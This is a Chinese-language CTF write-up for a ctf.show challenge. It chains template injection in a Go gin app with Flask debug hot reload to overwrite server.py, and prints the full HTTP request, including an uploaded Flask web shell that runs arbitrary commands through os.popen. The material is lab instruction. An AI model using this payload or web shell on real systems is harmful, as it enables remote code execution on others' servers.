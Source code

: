 flask 开了 debug 模式后，在 debug 模式下 flask 会动态更新源码的内容“热更新”，所以思路是通过 `FormFile`和 `SaveUploadedFile`上传文件覆盖掉之前的 flask 源码。

> debug 攻击点一般采用算 pin 和 debug 热加载，这里尝试过算 pin 发现不能携带 cookie，不能直接命令执行，所以使用热加载。

最后因为模版编译前会通过 html 编码把单双号转义，所以需要换个方式传入字符串，发现 `gin.Context`里面包装了 `Request`和 `ResponseWriter`, 这里随便找了个 `Request.UserAgent()`

```plain
// UserAgent returns the client's User-Agent, if sent in the request.
func (r *Request) UserAgent() string {
    return r.Header.Get("User-Agent")
}
```

文件上传 server.py 覆盖原来的代码，然后访问修改后的路由，flask 在处理的时候发现内存中的代码和源码中不同则会自动重启，这样我们就能构造恶意代码了

最终 payload

```plain
/admin?name={{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}&自己的 ip=/app/server.py HTTP/1.1 //自己的 ip 可以通过模板注入{{c.ClientIP()}}查看
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent:  /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: 545

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```
